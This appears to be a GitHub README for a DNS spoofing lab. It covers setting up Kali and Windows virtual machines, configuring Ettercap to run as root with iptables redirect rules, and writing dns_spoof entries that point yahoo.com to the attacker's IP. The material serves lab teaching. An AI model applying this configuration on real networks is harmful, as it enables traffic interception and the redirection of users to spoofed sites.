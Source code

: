 # dns-cache-poisoning



## REQUIREMENTS

1. virtual box
2. Two virtual machines 
        . we are using kali machine for attacking and windows machine as victim
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads and download according to the operating system
        
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
       follows instruction in the site to install kali machine on virtual box
       https://itsfoss.com/install-kali-linux-virtualbox/
        
3. Installing ettercap on kali
     use below command to install Ettercap application
     
        sudo apt-get install ettercap
        
4. installing apache server
     use following command to install apache server on kali
        
        sudo apt-get install apache2
                
5. install Iptable
     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
# Getting Ready


### Configuring
      
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.

        leafpad /etc/ettercap/etter.conf

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean

Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

##### Edit Ettercap.dns file

  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file

        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
 

